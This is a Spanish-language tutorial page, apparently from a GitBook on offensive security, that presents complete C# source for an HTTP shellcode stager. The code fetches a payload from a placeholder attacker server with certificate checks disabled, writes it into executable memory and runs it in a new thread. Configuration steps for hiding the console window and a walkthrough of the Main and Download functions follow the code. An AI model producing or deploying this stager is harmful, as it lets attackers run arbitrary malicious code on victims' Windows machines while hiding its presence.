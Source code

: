 # Stager HTTP C\#

## Código

{% code lineNumbers="true" %}
```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Runtime.InteropServices;
using System.Net;

namespace stagerHttp
{
    class Program
    {
        public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }

        private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }


        [DllImport("kernel32")]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        private static void Execute(byte[] shellcode)
        {
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (UInt32)shellcode.Length, 0x1000, 0x40);
            Marshal.Copy(shellcode, 0, (IntPtr)(addr), shellcode.Length);


            IntPtr hThread = IntPtr.Zero;
            IntPtr threadId = IntPtr.Zero;
            hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, threadId);

            WaitForSingleObject(hThread, 0xFFFFFFFF);

            return;
        }
    }
}

```
{% endcode %}



## Configuración inicial

Para ocultar la consola hay que seleccionar este campo

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

Para compilar en 64 bytes:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>



## Explicación

### Función Main

En este bloque lo que hacemos es almacenar lo que la función Download() devuelve en una variable para luego ejecutarla.

```csharp
public static void Main(String[] args)
        {
            byte[] shellcode = Download("http://<ip-shellcode-server>:<port>/<shellcode-filename>");
            Execute(shellcode);

            return;
        }
```



### Función Download

La primer linea de esta función se encarga de que cuando queramos descargar el shellcode no se fije en los errores producidos por https, que si bien podría funcionar sin esto, puede servir en otra situación.

{% embed url="https://learn.microsoft.com/en-us/dotnet/api/system.net.servicepointmanager.servercertificatevalidationcallback?view=net-7.0" %}

Después nos valemos del método **DownloadData()** para descargar como bytes el contenido de lo que le pasemos como url y posteriormente retornarlo.

```csharp
private static byte[] Download(string url)
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;

            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);

            return shellcode;
        }
```


